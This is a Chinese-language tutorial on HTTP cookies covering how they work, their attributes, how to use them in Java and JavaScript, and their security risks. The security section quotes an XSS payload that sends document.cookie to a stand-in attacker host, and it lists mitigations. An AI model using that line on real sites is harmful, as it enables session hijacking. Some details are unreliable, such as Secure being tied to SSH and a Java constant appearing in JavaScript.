


## Cookie的总结

### Cookie的介绍

HTTP Cookie是**服务器发送到用户浏览器并保存在本地**的一小块数据，**它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。**

通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie 使基于**无状态**的HTTP协议记录稳定的状态信息成为了可能。

[^无状态]:当一个客户端向服务器端发出请求，服务器返回响应（Response）后连接就被关闭了，在服务器端不保留连接的有关信息，这就是无状态


### Cookie的特点

Cookie 一般用于存储少量的不太敏感的数据（数据不安全）

浏览器对于单个 Cookie 的大小有限制(4kb)以及对同一个域名下的总 Cookie 数量也有限制(20个)（少量数据）


### Cookie的应用场景

cookie一般用来储存登入状态，即可以在不登录的情况下，完成服务器对客户端的身份识别

更多场景如下：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）


### Cookie的机制

当用户第一次访问并登陆一个网站的时候，cookie的设置以及发送会经历以下4个步骤：




1.  客户端发送一个请求到服务器         //场景：如第一次登入博客
2. 服务器发送一个HttpResponse响应到客户端，其中包含Set-Cookie的头部，客户端保存cookie    //第一次登入成功
3.  之后向服务器发送请求时，HttpRequest请求中会包含一个Cookie的头部   //第二次进入博客
4. 服务器返回响应数据                       //无需登入，即可进入正式页面


##### 后端代码验证

```java
//java代码
protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
  Cookie cookie = new Cookie("mcrwayfun",System.currentTimeMillis()+"");
  // 设置生命周期为MAX_VALUE
  cookie.setMaxAge(Integer.MAX_VALUE);
  //并将其加入到了HttpResponse对象中
  resp.addCookie(cookie);
}
```



可以看到确实如cookie机制中步骤2、3


### Cookie的使用

#### Cookie的属性

| 属性项     | 属性项介绍                                                   |
| :--------- | :----------------------------------------------------------- |
| NAME=VALUE | 键值对，可以设置要保存的 Key/Value，注意这里的 NAME 不能和其他属性项的名字一样 |
| maxAge     | cookie的失效时间，单位秒，如果为整数，则在maxAge秒后失效；为-1则是临时cookie，关闭浏览器即失效；为0表示删除该cookie。默认为 -1 。    **比Expires好用** |
| Expires    | 过期时间，在设置的某个时间点后该 Cookie 就会失效             |
| Domain     | 生成该 Cookie 的域名，如 domain="[www.baidu.com](http://www.baidu.com)" |
| Path       | 该 Cookie 是在当前的哪个路径下生成的，如 path=/wp-admin/     |
| Secure     | 如果设置了这个属性，那么只会在 SSH 连接时才会回传该 Cookie   |
| SameSite   | 允许服务器要求某个 cookie 在跨站请求时不会被发送  <br /><br />1.  SameSite=None 浏览器会在同站请求、跨站都发送 cookies<br />2.  SameSite=Strict 浏览器将只在相同站点时发送 cookie<br />3. SameSite=Lax  与**Strict**类似，但用户从外部链接导航至URL时除外 |
| httpOnly   | 如果给某个cookie设置了httpOnly属性，则无法通过JS脚本读取到该cookie的信息，但还是能通过Application 中手动修改cookie，所以只是在一定程度上可以防止XSS攻击，不是绝对的安全 |


#### Cookie的使用方法

* 读取 Cookie

  `var x = document.cookie;`

* 修改 Cookie

  `document.cookie="username=John Smith; expires=Thu, 18 Dec 2043 12:00:00 GMT; path=/";`

* 删除 Cookie

  删除cookie只需要设置 expires 参数为以前的时间即可（注意，删除时不必指定 cookie 的值）

  `document.cookie = "username=; expires=Thu, 01 Jan 1970 00:00:00 GMT";`

  

#### Cookie的有效期

Cookie 的有效期有两种方式定义

* 会话期 Cookie：浏览器关闭之后它会被自动删除     //不指定过期时间（`Expires`）或者有效期（`Max-Age`），即为会话题Cookie
* 持久性Cookie：设置了过期时间（`Expires`）或有效期（`Max-Age`）

##### Expires的使用方式

```js
document.cookie="username=John Doe; expires=Thu, 18 Dec 2043 12:00:00 GMT";
```

##### Max-Age的使用方式

```js
// 设置生命周期为MAX_VALUE，永久有效
document.cookie="username=John Doe; max-age="+Integer.MAX_VALUE;
// 设置生命周期为-1 ,会话期内有效
document.cookie="username=John Doe; max-age= -1";
// 设置生命周期为 0 ,用完之后立马被删除！
document.cookie="username=John Doe; max-age= 0";
```


### Cookie的问题

#### Cookie在不同的项目中能不能共享？

> 在同一个 Tomcat 服务器中，部署了多个 Web 项目，那么在这些 Web 项目中 Cookie 能不能共享？

默认情况下 Cookie 不能共享，如果要在不同项目中共享，则可以将path设置为  “/”


> 不同的 Tomcat 服务器间 Cookie 能不能共享？

setDomain(String path)：如果设置一级域名相同，那么多个服务器之间 Cookie 可以共享

如：setDomain(".baidu.com")，那么 tieba.baidu.com 和 news.baidu.com 中 Cookie 可以共享


#### Cookie 能不能存储中文？

在 Tomcat 8 之前，Cookie 中不能直接存储中文数据。
在 Tomcat 8 之后，Cookie  支持中文数据。但特殊字符（如空格）还是不支持，建议使用 URL 编码存储，URL 解码解析。


### Cookie安全

####  会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 [XSS](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting) 攻击。

```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

#### 跨站请求伪造（CSRF）

在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

```js

```

当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。


####  缓解Cookie攻击的方法

- 使用 `HttpOnly` 属性可防止通过 JavaScript 访问 cookie 值。
- 用于敏感信息（例如身份验证）的 Cookie 的生存期应设置较短，并且 `SameSite` 属性设置为`Strict` 或 `Lax`，防止跨域请求发送Cookie。